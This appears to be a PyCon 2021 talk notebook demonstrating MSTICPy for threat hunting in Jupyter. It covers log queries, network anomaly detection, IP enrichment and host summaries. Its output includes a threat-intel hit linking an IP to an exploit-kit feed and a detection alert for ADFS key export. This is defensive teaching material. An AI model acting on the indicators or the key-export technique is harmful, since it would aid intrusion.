# PyCon 2021

---

# MSTICPy - Threat hunting toolkit for Jupyter Notebooks
### Ian Hellen, Principal Dev, in Microsoft Threat Intelligence Center (MSTIC)
### @ianhellen (twitter), ianhelle@microsoft.com

![image](MSPyCon.png)

---

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Introduction</h1>


<h2 style="background-color: LightBlue; padding: 10px">MSTICPy</h2>

#### - Pronounced *mystic-pie*
#### - A collection of tools for Cyber investigators
#### - Open source, Python (obviously!)
#### - Targeted at Jupyter notebooks but a lot of functionality works in straight Python
#### - 2+ yrs old
#### - Just released v 1.0.0 (no longer a beta!!!)
#### - Primarily developed for use in Azure Sentinel but mostly data-source agnostic
<br>

---

<h2 style="background-color: LightBlue; padding: 10px">MSTICPy - What's in it?</h2>

#### - Data aquisition - data providers and queries
#### - Data enrichment - Threat Intel, Geo-IP, Azure resource properties
#### - Visualization - Event timelines, process tree, widgets
#### - Analysis - Anomaly detection, decoding, IoC extraction

#### - Partway to being as much of a framework as a toolkit

---

<h2 style="background-color: LightBlue; padding: 10px">Overview of Session</h2>

- **Data & Queries** - Getting data into the notebook
- **A tale from a SOC (Security Operations Center)**<br>
  How MSTICPy might be used to help you analyze and visualize information<br>
  that you need to determine whether you're looking at benign or malicious activity.
  
  - Network anomalies
  - Enriching data - find out more about an IP Address
  - Potentially compromised host
    - Summary
    - Logons
    - Processes
    
---

<h3 style="background-color: LightGray; padding: 5px">Getting started - We need to intialize a few things</h3>

- MSTICPy
- Data Providers
- Pivot functions
- Notebooklets

In [149]:
# pip install msticpy
# pip install msticnb

# Core MSTICPy initialization for Notebooks
from msticpy.nbtools import nbinit
nbinit.init_notebook(namespace=globals());

# Load query providers (typically you'll be using just one)
qry_prov_az = QueryProvider("AzureSentinel")
qry_prov_sp = QueryProvider("Splunk")
qry_prov_mde = QueryProvider("MDE")
# Special provider that uses local data files
qry_prov_loc = QueryProvider("LocalData", data_paths=["./data"], query_paths=["./data"])

# Import and initialize dynamic pivot functions - more later
from msticpy.datamodel.pivot import Pivot
pivot = Pivot(namespace=globals())

# Import and initialize MSTIC Notebooklets - companion package
# more later
import msticnb as nb
nb.init(query_provider="AzureSentinel")

Using Open PageRank. See https://www.domcop.com/openpagerank/what-is-openpagerank
Notebooklets: Loaded providers: AzureSentinel, geolitelookup, tilookup, azuredata


---

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">Queries and Data</h1>

---

## Getting to data may be a bit dull but it's the foundation of security hunting:
> “Without big data, you are blind and deaf and in the middle of a freeway.”
*Geoffrey Moore*

> “In God we trust, all others bring data.”
*W Edwards Deming*


<h2 style="background-color: LightBlue; padding: 10px">MSTICPy Data Providers</h2>

https://msticpy.readthedocs.io/en/latest/data_acquisition/DataProviders.html

- Usually come with pre-defined queries
- Azure Sentinel queries are most developed

### Importance of pre-built queries to help analysts!

In [62]:
qry_prov_az.browse_queries()

In [150]:
qry_prov_loc.Network.get_network_summary().head()

,TimeGenerated,TotalBytesSent
0,2021-04-26 05:39:56.317964+00:00,10823
1,2021-04-26 06:39:56.317964+00:00,14821
2,2021-04-26 07:39:56.317964+00:00,13532
3,2021-04-26 08:39:56.317964+00:00,11947
4,2021-04-26 09:39:56.317964+00:00,11193


<h3 style="background-color: LemonChiffon; padding: 5px">Most data providers need authentication</h3>


```python<
qry_prov.connect(connect_params....)
```

In [102]:
qry_prov_az.connect(WorkspaceConfig(workspace="CyberSecuritySoc"))

<IPython.core.display.Javascript object>

<IPython.core.display.Javascript object>

<h3 style="background-color: LemonChiffon; padding: 5px">Most queries have mandatory parameters</h3>

In [103]:
qry_prov_loc.WindowsSecurity.list_host_processes()

Query:  list_host_processes
Data source:  LocalData
List processes on host

Parameters
----------
end: datetime (optional)
    Query start time
host_name: str
    Host name for lookup queries
start: datetime (optional)
    Query start time
    (default value is: -1)
Query:
processes_on_host_ud.pkl


ValueError: No values found for these parameters: ['host_name']

In [104]:
qry_prov_loc.WindowsSecurity.list_host_processes(host_name="MSTICAlertsWin1").head(3)

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc,index
0,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.819482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x13c,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,%%1936,0x2360,"""C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64/DesiredStat...",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.260,NaN
1,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.826482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x11a8,C:\Windows\System32\conhost.exe,%%1936,0x13c,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.267,NaN
2,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:58.822482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x1850,C:\Windows\System32\WerFault.exe,%%1936,0x13c,C:\Windows\system32\WerFault.exe -u -p 316 -s 3020,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:42:20.263,NaN


<h3 style="background-color: LemonChiffon; padding: 5px">Most queries require time parameters!</h3>

### ....datetime strings are a **pain** to type in and keep track of

### Fortunately there's an easier way to specify time parameters - `nbwidgets.QueryTime` class

In [105]:
timerange = nbwidgets.QueryTime(units="hour")
timerange

#### This is a live query against Azure Sentinel

In [68]:
qry_prov_az.WindowsSecurity.list_host_processes(timerange, host_name="VictimPC2").head(3)

<IPython.core.display.Javascript object>

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:17:22.003000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x14f8,C:\Windows\System32\cscript.exe,%%1936,0x66c,"""C:\WINDOWS\system32\cscript.exe"" /nologo ""MonitorKnowledgeDiscovery.vbs""",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:17:22.003000+00:00
1,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:17:22.007000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x1c90,C:\Windows\System32\conhost.exe,%%1936,0x14f8,\??\C:\WINDOWS\system32\conhost.exe 0xffffffff -ForceV1,C:\Windows\System32\cscript.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:17:22.007000+00:00
2,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:17:24.643000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x230c,C:\Windows\System32\svchost.exe,%%1936,0x2e4,C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s BITS,C:\Windows\System32\services.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:17:24.643000+00:00


<br>
<h3 style="background-color: LightGray; padding: 5px">Extending built-in queries using the <b>add_query_items</b> parameter</h3>

In [69]:
qry_prov_az.WindowsSecurity.list_host_processes(timerange, host_name="VictimPC2", add_query_items="| where NewProcessName contains 'powershell'").head(3)

<IPython.core.display.Javascript object>

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:19:17.287000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x1f68,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:19:17.287000+00:00
1,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:29:17.290000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x17b4,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:29:17.290000+00:00
2,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-06 16:24:17.290000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0xecc,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-06 16:24:17.290000+00:00


<br>
<h3 style="background-color: LightGray; padding: 5px"><b>exec_query</b> is a pass-through for native queries</h3>

In [70]:
result = qry_prov_az.exec_query("SecurityEvent | take 1000 | summarize count() by Computer")
result.head(5)

<IPython.core.display.Javascript object>

,Computer,count_
0,SOC-FW-RDP,638
1,OnPremSQL,9
2,SHIR-Hive,155
3,WIN2019SVR,31
4,SHIR-SAP,117


<h3 style="background-color: LemonChiffon; padding: 5px">pandas DataFrames are the lingua-franca of MSTICPy</h3>

In [71]:
type(result)

pandas.core.frame.DataFrame

<h2 style="background-color: LightBlue; padding: 10px">What if you don't have a suitable query provider? or even a data source?</h2>

You might need to do a bit of work (but not too much)

- You can import from CSV, JSON and others to a DF
- Many SDKs (like pyspark) work directly in or can convert to a DataFrame

> <b>PS - if you're prepared to <i>do a bit of work</i>, contribute the code as a MSTICPy data provider!!!</b>

In [72]:
pd.read_csv("ian_procs.csv", parse_dates=["TimeGenerated"]).head(3)

,Unnamed: 0,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,17484,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:28.013,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0x3850,C:\Windows\System32\tasklist.exe,%%1938,0x17c4,tasklist,C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:28.013
1,17485,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:28.023,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0xbc0,C:\Windows\System32\findstr.exe,%%1938,0x17c4,findstr 'cmd',C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:28.023
2,17486,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:34.633,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0x33a8,C:\Windows\System32\tasklist.exe,%%1938,0x17c4,tasklist,C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:34.633


In [151]:
pd.read_csv("ian_procs.csv", parse_dates=["TimeGenerated"]).mp_timeline.plot() #group_by="NewProcessName")

Loading BokehJS ...

Column(id='10226', ...)

---

<h1 style="border: 1px solid;background-color: LightGray; padding: 10px">A tale from the SOC (Security Operations Center)</h1>

This section shows how some of the MSTICPy functionality might be used in
a Security Operations Center context.

We'll look at:
- Finding a signal - an alert or anomaly
- Getting some contextual information on the actors/entities in that signal
- Investigating the target(s) of the attack

<h2 style="background-color: LightBlue; padding: 10px">Evidence of an attack? Anomalous network traffic</h2>

<h3 style="background-color: LightGray; padding: 5px">Time Series Decomposition</h3>

- STL - Seasonal Trend Decomposition using Loess
- Loess (aka LOWESS) - Locally Weighted Scatterplot Smoothing

In [75]:
from msticpy.nbtools.timeseries import display_timeseries_anomolies
from msticpy.analysis.timeseries import ts_anomalies_stl

In [111]:
# Get the data
net_df = qry_prov_loc.Network.get_network_summary()
net_df.head(3)

,TimeGenerated,TotalBytesSent
0,2021-04-26 05:39:56.317964+00:00,10823
1,2021-04-26 06:39:56.317964+00:00,14821
2,2021-04-26 07:39:56.317964+00:00,13532


In [115]:
# For time series analysis we need the Timestamp in the index
net_df.set_index("TimeGenerated")
# or
net_df.groupby("TimeGenerated").sum().head(3)

# For raw data use pandas to summarize by hour
# data = qry_prov_loc.Network.get_network_flows()
# data = (
#     data[["TimeGenerated", "TotalBytesSent"]]
#     .set_index("TimeGenerated")
#     .groupby(pd.Grouper(freq="1H"))
#     .sum()
# )

,TotalBytesSent
TimeGenerated,
2021-04-26 05:39:56.317964+00:00,10823
2021-04-26 06:39:56.317964+00:00,14821
2021-04-26 07:39:56.317964+00:00,13532


In [158]:
# Conduct our timeseries analysis
ts_analysis = ts_anomalies_stl(net_df.set_index("TimeGenerated"))

# Visualize the timeseries and any anomalies
display_timeseries_anomolies(data=ts_analysis, y= 'TotalBytesSent');

Loading BokehJS ...

<h3 style="background-color: LightGray; padding: 5px">Zero in on the anomaly period</h3>

In [78]:
qry_prov_loc.Network.get_network_flows().head()

,TimeGenerated,DeviceVendor,DeviceProduct,DeviceAction,Action,SourceIP,SourcePort,DestinationIP,DestinationPort,TotalBytesSent,Direction
0,2021-04-30 22:58:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,65214,38.75.137.9,443,347,outbound
1,2021-04-30 23:03:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,65214,38.75.137.9,443,347,outbound
2,2021-04-30 23:08:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,51511,38.75.137.9,443,347,outbound
3,2021-04-30 23:13:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,51511,38.75.137.9,443,347,outbound
4,2021-04-30 23:18:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,46686,38.75.137.9,443,347,outbound


In [79]:
from msticpy.analysis.timeseries import find_anomaly_periods
anom_times = find_anomaly_periods(ts_analysis)
anom_times

[TimeSpan(start=2021-04-30 22:00:00+00:00, end=2021-05-01 01:00:00+00:00, period=0 days 03:00:00)]

,,TotalBytesSent
SourceIP,DestinationIP,
20.185.182.48,38.75.137.9,8328




In [80]:
# Use the anomaly period to provide the "start" and "end" params of our query
ts_df = qry_prov_loc.Network.get_network_flows(anom_times[0])

# Summarize the traffic counts grouped by Source/Dest IP Address
noisy_ips = ts_df.groupby(["SourceIP", "DestinationIP"]).agg({"TotalBytesSent": "sum"})

# Plot this data and pull out the top offender
noisy_ips.plot.barh(figsize=(8, 6))
display(noisy_ips.sort_values("TotalBytesSent", ascending=False).head(1))

---

<h2 style="background-color: LightBlue; padding: 10px">Enrichment Functions - getting to know your subject</h2>


### Enrich with what? how?

We want to find more information about this IP Address

<h3 style="background-color: LemonChiffon; padding: 5px">Introducing Entities</h3>

#### Entities are simple classes that represent "real-world" Cyber objects like accounts and IP addresses


In [81]:
md(f"Some Entities:", "bold, large")
md(f"{', '.join(dir(entities)[:25])} ...", "large")

entities.IpAddress(Address="1.2.3.4")

IpAddress(Address=1.2.3.4, Type=ipaddress)

<h3 style="background-color: LemonChiffon; padding: 5px">Also introducing Pivot functions</h3>

Pivot functions are methods of entities that provide:
- data queries related to an entity
- enrichment functions relevant to that entity

Pivot functions are dynamically attached to entities. We created this
framework to make it easier to find which functions you can use for which entity type.

### Motivation
- we had built a lot of functionality with inconsistent type/parameter signatures
- There was no easy discovery mechanism for these functions - you had to know
- Using entities as pivot points is a "natural" investigation pattern

In [82]:
pivot.browse()

In [120]:
entities.Dns.pivots()

['AzureSentinel.azsent_bookmarks',
 'AzureSentinel.azti_list_indicators_by_domain',
 'AzureSentinel.dns_queries',
 'dns_is_resolvable',
 'dns_resolve',
 'qry_azsent_bookmarks',
 'qry_dns_queries',
 'ti.lookup_dns',
 'ti.lookup_dns_OPR',
 'ti.lookup_dns_OTX',
 'ti.lookup_dns_VirusTotal',
 'ti.lookup_dns_XForce',
 'tilookup_dns',
 'util.dns_components',
 'util.dns_in_abuse_list',
 'util.dns_is_resolvable',
 'util.dns_resolve',
 'util.dns_validate_tld']

In [83]:
entities.IpAddress.whois("38.75.137.9")

,asn,asn_cidr,asn_country_code,asn_date,asn_description,asn_registry,nets,nir,query,raw,raw_referral,referral
0,63023,38.75.136.0/23,US,1991-04-16,"AS-GLOBALTELEHOST, US",arin,"[{'cidr': '38.0.0.0/8', 'name': 'COGENT-A', 'handle': 'NET-38-0-0-0-1', 'range': '38.0.0.0 - 38....",None,38.75.137.9,None,None,None


In [84]:
IpAddress = entities.IpAddress
invest_ips = noisy_ips.reset_index()
IpAddress.whois(invest_ips, column="DestinationIP")

,nir,asn_registry,asn,asn_cidr,asn_country_code,asn_date,asn_description,query,nets,raw,referral,raw_referral
0,None,arin,8075,40.124.0.0/16,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.124.45.19,"[{'cidr': '40.76.0.0/14, 40.96.0.0/12, 40.112.0.0/13, 40.120.0.0/14, 40.125.0.0/17, 40.80.0.0/12...",None,None,None
1,None,arin,8075,40.124.0.0/16,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.124.45.19,"[{'cidr': '40.76.0.0/14, 40.96.0.0/12, 40.112.0.0/13, 40.120.0.0/14, 40.125.0.0/17, 40.80.0.0/12...",None,None,None
2,None,arin,8075,13.64.0.0/11,US,2015-03-26,"MICROSOFT-CORP-MSN-AS-BLOCK, US",13.71.172.130,"[{'cidr': '13.64.0.0/11, 13.96.0.0/13, 13.104.0.0/14', 'name': 'MSFT', 'handle': 'NET-13-64-0-0-...",None,None,None
3,None,arin,8075,40.76.0.0/14,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.77.232.95,"[{'cidr': '40.112.0.0/13, 40.96.0.0/12, 40.125.0.0/17, 40.76.0.0/14, 40.74.0.0/15, 40.124.0.0/16...",None,None,None
4,None,arin,8075,13.64.0.0/11,US,2015-03-26,"MICROSOFT-CORP-MSN-AS-BLOCK, US",13.71.172.130,"[{'cidr': '13.64.0.0/11, 13.96.0.0/13, 13.104.0.0/14', 'name': 'MSFT', 'handle': 'NET-13-64-0-0-...",None,None,None
5,None,arin,8075,65.52.0.0/14,US,2001-02-14,"MICROSOFT-CORP-MSN-AS-BLOCK, US",65.55.44.109,"[{'cidr': '65.52.0.0/14', 'name': 'MICROSOFT-1BLK', 'handle': 'NET-65-52-0-0-1', 'range': '65.52...",None,None,None
6,None,arin,8075,104.40.0.0/13,US,2014-05-07,"MICROSOFT-CORP-MSN-AS-BLOCK, US",104.43.212.12,"[{'cidr': '104.40.0.0/13', 'name': 'MSFT', 'handle': 'NET-104-40-0-0-1', 'range': '104.40.0.0 - ...",None,None,None
7,None,arin,8075,104.40.0.0/13,US,2014-05-07,"MICROSOFT-CORP-MSN-AS-BLOCK, US",104.43.212.12,"[{'cidr': '104.40.0.0/13', 'name': 'MSFT', 'handle': 'NET-104-40-0-0-1', 'range': '104.40.0.0 - ...",None,None,None
8,None,arin,63023,38.75.136.0/23,US,1991-04-16,"AS-GLOBALTELEHOST, US",38.75.137.9,"[{'cidr': '38.0.0.0/8', 'name': 'COGENT-A', 'handle': 'NET-38-0-0-0-1', 'range': '38.0.0.0 - 38....",None,None,None


<h3 style="background-color: LemonChiffon; padding: 5px">Pivot functions can also work as instance methods</h3>

Create Two IpAddress objects and query "whois" information directly

In [85]:
from msticpy.datamodel.entities import IpAddress

srcip = IpAddress(Address="38.75.137.9")
destip = IpAddress(Address="38.75.137.9")
destip.whois()

,asn,asn_cidr,asn_country_code,asn_date,asn_description,asn_registry,nets,nir,query,raw,raw_referral,referral
0,63023,38.75.136.0/23,US,1991-04-16,"AS-GLOBALTELEHOST, US",arin,"[{'cidr': '38.0.0.0/8', 'name': 'COGENT-A', 'handle': 'NET-38-0-0-0-1', 'range': '38.0.0.0 - 38....",None,38.75.137.9,None,None,None


### also geolocation data

In [86]:
destip.geoloc()

,CountryCode,CountryName,State,City,Longitude,Latitude,Asn,edges,Type,AdditionalData,IpAddress
0,US,United States,California,Los Angeles,-118.244,34.0544,None,{},geolocation,{},38.75.137.9


In [121]:
destip.Location = entities.GeoLocation(destip.geoloc().iloc[0])
display(destip)

IpAddress(Address=38.75.137.9, Location={ 'AdditionalData': {},
  'City': 'Los Angeles',
 ...)

In [159]:
# Create a map
folium = FoliumMap(zoom_start=10)

# Get all of the IPs from our data set and make them into GeoLocation objects
dest_ip_locs = IpAddress.geoloc(data=invest_ips, column="DestinationIP").apply(entities.GeoLocation, axis=1)

# Add our suspect IP and center around that
folium.add_ip_cluster([destip], color="red")
folium.center_map()
# Add the rest of the IPs
folium.add_geoloc_cluster(dest_ip_locs.values, color="blue")
folium.add_ip_cluster([destip], color="red")

folium

<h3 style="background-color: LightGray; padding: 5px">Same thing - in a pandas pipeline</h3>

You can chain pivot functions using the `mp_pivot.run` pandas accessor

In [157]:
ip_set = (
    invest_ips
    .mp_pivot.run(IpAddress.ip_type, column="DestinationIP", join="left")
    .mp_pivot.run(IpAddress.whois, column="DestinationIP", join="left")
    .mp_pivot.run(IpAddress.geoloc, column="DestinationIP")
    .apply(entities.GeoLocation, axis=1)
)
folium = FoliumMap(zoom_start=5)
folium.add_geoloc_cluster(dest_ip_locs.values, color="blue")
folium.add_ip_cluster([destip], color="red")
folium.center_map()
folium

<h3 style="background-color: LightGray; padding: 5px">Applying some (threat) intelligence to the problem</h3>

### What are Threat Intelligence providers?

#### Threat Intel definition (Courtesy Crowdstrike)
> Threat intelligence is data that is collected, processed, and analyzed to understand a threat<br>
> actor’s motives, targets, and attack behaviors. Threat intelligence enables us to make faster,<br>
> more informed, data-backed security decisions and change their behavior from reactive to<br>
> proactive in the fight against threat actors.

A number of companies make Threat Intel (TI) data available via public or paid APIs:
- VirusTotal
- AlienVault OTX
- IBM XForce
- and many others

In [89]:
destip.tilookup_ipv4()

,Ioc,IocType,SafeIoc,QuerySubtype,Provider,Result,Severity,Details,RawResult,Reference,Status
0,38.75.137.9,ipv4,38.75.137.9,None,OTX,True,high,"{'pulse_count': 4, 'names': ['Underminer.EK - Exploit Kit IOC Feed', '<script src=""https://otx.a...","{'whois': 'http://whois.domaintools.com/38.75.137.9', 'reputation': 0, 'indicator': '38.75.137.9...",https://otx.alienvault.com/api/v1/indicators/IPv4/38.75.137.9/general,0


In [90]:
ti_results = destip.tilookup_ipv4()
display(ti_results)
TILookup.browse_results(ti_results)

,Ioc,IocType,SafeIoc,QuerySubtype,Provider,Result,Severity,Details,RawResult,Reference,Status
0,38.75.137.9,ipv4,38.75.137.9,None,OTX,True,high,"{'pulse_count': 4, 'names': ['Underminer.EK - Exploit Kit IOC Feed', '<script src=""https://otx.a...","{'whois': 'http://whois.domaintools.com/38.75.137.9', 'reputation': 0, 'indicator': '38.75.137.9...",https://otx.alienvault.com/api/v1/indicators/IPv4/38.75.137.9/general,0


<h3 style="background-color: LightGray; padding: 5px">Side note: we have an app for this last section - see Notebooklets below</h3>

```python
ip_result = IpAddress.nblt.ip_address_summary(destip, timespan=timerange)
```

---

<h2 style="background-color: LightBlue; padding: 10px">Let's look at what happened on the host...the other end of the communication</h2>

<h3 style="background-color: LightGray; padding: 5px">Introducing "notebooklets" - macros for CyberSec</h3>

We built notebooklets because life is too short keep repeating the same code over and over again.

Notebooklets package multiple notebook cells for common investigation routines into simple functions

In [137]:
nb.browse()

In [138]:
host_time = nbwidgets.QueryTime(timespan=anom_times[0])
host_time

In [153]:
host_summary = nb.nblts.azsent.host.HostSummary()

host_summary_rslt = host_summary.run(value="victimpc", timespan=host_time, options=["-bookmarks"])

{ 'AdditionalData': {},
  'AgentId': 'f6638b82-98a5-4542-8bec-6bc0977f793f',
  'AzureDetails': { 'ResourceDetails': { 'Admin User': 'ContosoAdmin',
                                         'Azure Location': 'eastus',
                                         'Disks': [],
                                         'Image': 'Windows-10 19h2-ent',
                                         'Network Interfaces': [ '/subscriptions/d1d8779d-38d7-4f06-91db-9cbc8de0176f/resourceGroups/DefendTheFlag/providers/Microsoft.Network/networkInterfaces/Nic1'],
                                         'Tags': 'None',
                                         'VM Size': 'Standard_A2_v2'},
                    'ResourceGroup': 'DefendTheFlag',
                    'ResourceId': '/subscriptions/d1d8779d-38d7-4f06-91db-9cbc8de0176f/resourceGroups/DefendTheFlag/providers/Microsoft.Compute/virtualMachines/VictimPc',
                    'ResourceProvider': 'Microsoft.Compute',
                    'ResourceType': 'virt

Loading BokehJS ...

In [140]:
host_summary_rslt.browse_alerts()

,8
TenantId,8ecf8077-cf51-4820-aadd-14040956f35d
TimeGenerated,2021-05-03 09:14:42.509000+00:00
AlertDisplayName,ADFS DKM Master Key Export
AlertName,ADFS DKM Master Key Export
Severity,High
Description,Identifies an export of the ADFS DKM Master Key from Active Directory.\nReferences: \n- https://...
ProviderName,ASI Scheduled Alerts
VendorName,Microsoft
VendorOriginalId,7bc4a6ea-fcd3-47e5-ad43-268ded6a2fcb
SystemAlertId,d42b4699-c0c8-40fd-56af-bf1d4c709c40


<h3 style="background-color: LightGray; padding: 5px">Who logged on to this host?</h3> 

In [154]:
host_logons = nb.nblts.azsent.host.HostLogonsSummary()

host_logons_rslt = host_logons.run(value="victimpc", timespan=host_time)

<IPython.core.display.Javascript object>

Performing analytics and generating visualizations


Loading BokehJS ...

Loading BokehJS ...

,TenantId,Account,EventID,TimeGenerated,SourceComputerId,Computer,SubjectUserName,SubjectDomainName,SubjectUserSid,TargetUserName,TargetDomainName,TargetUserSid,TargetLogonId,LogonProcessName,LogonType,LogonTypeName,AuthenticationPackageName,Status,IpAddress,WorkstationName,TimeCreatedUtc,LogonResult,SourceIP
0,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 08:00:00.153000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x976a1b9e,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 08:00:00.153000+00:00,Success,-
5,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 08:20:00.350000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x97993db8,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 08:20:00.350000+00:00,Success,-
